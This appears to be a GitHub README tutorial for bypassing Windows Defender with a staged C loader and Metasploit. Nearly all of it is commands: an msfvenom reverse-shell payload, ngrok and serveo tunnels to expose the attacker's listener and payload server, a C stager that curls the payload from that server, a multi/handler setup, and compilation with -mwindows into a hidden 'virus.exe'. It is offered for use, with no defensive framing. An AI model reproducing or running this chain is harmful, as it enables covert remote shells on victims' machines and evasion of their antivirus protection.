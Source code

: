 # Bypass-Windows-Defender
Bypass Windows Defender with a staged C code &amp; metasploit framework

#### developed by L0PA

 ### Bypass Step's:
   - Create a TCP Tunnel: Set up a TCP tunnel using Ngrok to expose the port for the payload.
   - Generate Payload: Use msfvenom to create the payload in .bin format.
   - Start Python Server: Launch a Python HTTP server in the same directory where the payload is located.
   - Expose Server Online: Use Serveo to make the server accessible online.
   - Set up Listener: Use msfconsole to listen on the specified TCP port.
   - Develop C Code: Write the C code to fetch and execute the payload.
   - Compile and Run: Compile the C code and execute.
##

### Install all requirements on debian
   - Install Ngrok
   ```
  wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
  unzip ngrok-stable-linux-amd64.zip
  sudo mv ngrok /usr/local/bin/
  ```
  - install metasploit framework
  ```
  curl https://raw.githubusercontent.com/rapid7/metasploit-framework/master/scripts/ubuntu_install.sh > ubuntu_install.sh
  chmod +x ubuntu_install.sh
  ./ubuntu_install.sh
  ```
  - install gcc
  ```
  sudo apt install gcc-mingw-w64-x86-64
  ```
##

### Install all requirements on Arch Linux
   - Install Ngrok
   ```
  git clone https://aur.archlinux.org/ngrok-bin.git
  cd ngrok-bin
  makepkg -si
  ```
  - metasploit framework
  ```
  sudo pacman -S metasploit
  ```
  - install gcc
  ```
  sudo pacman -S mingw-w64-gcc
  ```

##
### Tutorial for bypass Windows Defender

- Create the tcp tunnel on the port 4444
  ```
  sudo ngrok tcp 4444
  ```
- Copy the IP and the PORT of the server 
  ```
   - IP: 4.tcp.eu.ngrok.io
   - PORT: 15819
  ```

<p align="center">
    <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/ngrok-tcp.jpg">
   </p>

- Create the .bin payload using msfvenom 
  ```
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=4.tcp.eu.ngrok.io LPORT=15819 -f raw -o payload.bin
  ```

- Launch a Python HTTP server in the same directory where the payload is located 
  ```
    python -m http.server 8090
  ```

- Create the serveo key and expose python server using a serveo tunnel
  ```
   ssh-keygen -t rsa -b 4096 -f ~/.ssh/serveo_key
   ssh -i ~/.ssh/serveo_key -R yourServer:80:localhost:8090 serveo.net
  ```

- Create the main.c file and modify the "command" variable with your server
```
   char *command = "curl https://yourServer.serveo.net/payload.bin";
```

<p align="start">
   <img src="https://github.com/HaxL0p4/Bypass-Windows-Defender/blob/main/command_variable.png">
</p>

##

- Setting up msfconsole
```
   msfconsole
```
```
   use exploit multi/handler
   ```
```
   set payload windows/x64/shell_reverse_tcp
```
```
   set LHOST <LOCAL IP>
   ```
```
   set LPORT 4444
```
```
   exploit
```

##

- Compile the main.c file for Windows
   - For Windows
   ```
   gcc main.c -o virus -mwindows
   ```
   - For Linux
   ```
   x86_64-w64-mingw32-gcc -o virus.exe main.c -mwindows
   ```

   ## ⚠️ don't forget the -mwindows parameter

  ## 😈 Now, run the virus.exe file on your Windows PC, and regardless of the network you are connected to, the TCP connection to metasploit will be established

  

